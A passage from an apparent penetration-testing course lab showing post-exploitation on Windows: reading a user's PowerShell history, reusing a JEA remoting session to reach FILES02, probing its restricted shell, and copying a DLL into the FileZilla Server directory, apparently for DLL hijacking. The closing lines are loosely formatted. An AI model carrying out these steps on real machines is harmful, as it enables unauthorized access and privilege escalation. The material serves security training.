 In this case, we'll simulate that we have done lateral movement and gained access to multiple systems and users, including the clear text password for the _mary_ user, which allows us to remote desktop to _CLIENT02_. Let's start by reviewing the PowerShell history on the machine. First, we'll find out where the history is saved.

```
PS C:\> (Get-PSReadlineOption).HistorySavePath
C:\Users\mary\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

> Listing 29 - Finding location of PowerShell history

In this case, the PowerShell history appears to be in the default location. Now let's inspect it.

```
PS C:\> type C:\Users\mary\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
copy-item -path C:\shares\engineering_old\scripts\start.ps1.bak -destination C:\shares\home\mary
exit
h:
type .\start.ps1.bak
exit
...
```

> Listing 30 - Reading the PowerShell history for mary on CLIENT02

Reviewing the output, _mary_ indeed initiated a connection to the _FILES02_ machine previously. Additionally, we'll find that the **Copy-Item** command has been used to copy a file from the **C:\shares\engineering\_old\scripts** directory.

Since we are logged in as _mary_, let's use the same **Enter-PSSession** command and connect to _FILES02_.

```
PS C:\> Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
[files02]: PS>
```

> Listing 31 - Connecting to JEA on FILES02 as mary

We have a shell on _FILES02_. Let's try to run some commands.

```
[files02]: PS>whoami
The term 'whoami.exe' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the
spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (whoami.exe:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException

[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
The syntax is not supported by this runspace. This can occur if the runspace is in no-language mode.
    + CategoryInfo          : ParserError: ([System.Securit...tCurrent().Name:String) [], ParseException
    + FullyQualifiedErrorId : ScriptsNotAllowed
```


[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"